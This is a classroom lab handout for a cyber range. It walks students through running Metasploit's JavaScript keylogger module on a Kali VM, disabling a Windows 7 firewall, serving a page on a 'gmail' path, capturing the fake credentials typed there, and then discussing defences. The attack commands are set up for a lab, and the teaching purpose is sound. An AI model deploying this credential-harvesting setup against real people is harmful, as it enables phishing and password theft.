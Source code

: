 # Keylogging Lab Instructions

## Preparation
- Kali Linux Virtual Machine
- Windows 7 Virtual Machine
- Software Tools used (both from Kali Linux OS)
  -	Metasploit Framework
  - Web JavaScript Keylogger Exploit

## Setup Environments
- Log into the cyber range
- Open the Kali Linux and Windows 7 Environments
- In Windows, change your network location
  - Click on the Windows Start button
  - Search for “Network”
  - Open the Network and Sharing Center program
  - Under your Network #, click on the “Public Network”
  - Select the “Home Network” option (This disables the Windows Firewall)

- Find the IP Address (Kali Machine). You will need the IP address of the Kali machine
  - Open the Terminal in your Kali machine and type the following command: 
```sh 
hostname -I
```
This will display the IP Address

  - Write down the Kali VM IP address

- Find the IP Address (Windows Machine)
  - Select the Start button (Windows Machine) and search for “cmd”
  - Open cmd (Command Prompt)
  - Use the following command: 
```sh
ipconfig
```
  - Search for the IPv4 Address line
  - Write down the Windows IP Address

## Initialize Metasploit

- In the Kali environment, open Terminal
- Type the following command to start the database:
```sh
sudo systemctl start postgresql 
```
- Type the following command to start the Metasploit framework:
```sh
sudo msfdb init
sudo msfconsole
```
You should notice that Metasploit console has started, and you should now see the following: 
```sh
msf >
```
Start the Keylogger Attack
- Type:
```sh
use auxiliary/server/capture/http_javascript_keylogger
```
- Type the following to see options for this attack:
```sh
show options
```
- Type the following to turn the demo on:
```sh
set demo True
```
- Set the keylogger server port to port 1717 with the following command:
```sh
set SRVPORT 1717
```
- Set the server host with the following command (replace Kali_IP_Address with the IP address you found earlier for your Kali machine):
```sh
set SRVHOST Kali_IP_Address
```
Run the keylogger attacker: Type run to start the server:
```sh
run
```
Starting the Attack
- Break/Stop the server by pressing CTRL+C
- Now, set the URI path the “Gmail” by tryping the following command:
```sh 
set URIPATH gmail
```
- Rerun the capture by entering the run command again:
```sh
run
```

- Write down the URL the server is currently using. It should look like the following:
           http://10.1.90.93:1717/gmail

Playing the Victim
- In the Windows environment, open the Chrome Browser
- Go to the website of the URL you wrote down.
- Add “/demo” to the end of this URL. It should look something like the following
           http://10.1.57.93:1717/gmail/demo
- You should see a "Keylogger Demo Form" page
- Type in fake credentials as if you were going to log into a website

Seeing the Attack
- Go back to Kali
- Notice it recorded every keystroke!

Discuss ways to defend against a Key Logger
- Only use credentials at trusted websites!
- What was the website URL you entered your credentials in?
- Avoid re-using passwords across multiple websites
- If one site steals your password once, they're all the same...
- Use a firewall!
- Remember you disabled the firewall at the beginning of this lab
- Firewalls help prevent malicious software from sending out data without you knowing
- Two-Factor Authentication
- Why would these help secure your password?
- What are some other ways of defending against a keylogger attack?



